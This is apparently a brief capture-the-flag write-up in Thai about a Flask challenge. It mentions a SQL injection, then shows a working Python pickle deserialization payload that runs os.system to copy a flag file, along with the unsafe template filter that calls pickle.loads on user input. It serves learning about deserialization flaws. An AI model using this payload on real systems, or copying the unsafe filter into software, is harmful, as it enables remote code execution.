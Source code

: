 






![alt text](image-2.png)

![alt text](image-3.png)

code มีช่องโหว่ sql injectoion

ลอง payload ต่างๆ ทำ multistate sql ไม่ได้ ,ไม่มี writefile 

```
import pickle
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

command = 'cp /app/flag.txt /app/application/static/images/flag.txt' 
payload = base64.b64encode(pickle.dumps(PickleRCE())) 
print(f"Payload: {payload}")
```


https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/blob/main/THM_pickle_owasp10_room.py


![alt text](image-4.png)
```
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
```

หาก template ใช้ filter pickle จะเรียกใช้ pickle_loads function

![alt text](image-5.png)

![alt text](image-1.png)

![alt text](image.png)